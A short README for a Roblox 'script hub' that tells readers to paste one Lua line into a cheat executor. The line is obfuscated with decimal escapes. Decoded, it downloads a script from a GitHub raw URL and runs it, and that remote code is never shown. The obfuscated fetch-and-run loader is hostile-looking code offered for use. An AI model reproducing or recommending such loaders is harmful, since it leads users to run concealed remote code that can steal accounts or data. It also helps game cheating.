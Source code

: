 # ScriptMania
# My script Hub
Just copy the script and put it in your executer


```lua
loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\39\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\75\101\118\105\110\111\114\51\113\120\116\47\86\65\76\75\73\47\109\97\105\110\47\86\65\76\75\73\39\41\41\40\41\10")()
```
